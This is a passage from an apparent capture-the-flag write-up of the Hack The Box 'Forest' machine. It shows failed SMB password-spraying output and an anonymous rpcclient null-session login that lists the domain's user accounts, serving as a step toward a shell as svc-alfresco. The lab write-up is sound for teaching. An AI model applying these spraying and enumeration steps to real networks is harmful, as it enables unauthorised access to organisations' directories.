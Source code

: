 ```scss
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:lucinda STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:andy STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:mark STATUS_LOGON_FAILURE 
<SNIP>
htb.local\administrator:santi STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\administrator:forest STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\administrator:administrator STATUS_LOGON_FAILURE 
```

All pairs are not working.. I think I have to try other methods..
Since there's no other vectors to break in, I think there might be other service that I'm missing..

# Shell as `svc-alfresco`

### RPC(135)

Let's try NULL session login using `rpcclient`.
If it allows, I can try `enumdomusers` command to find existing users.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U '' -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
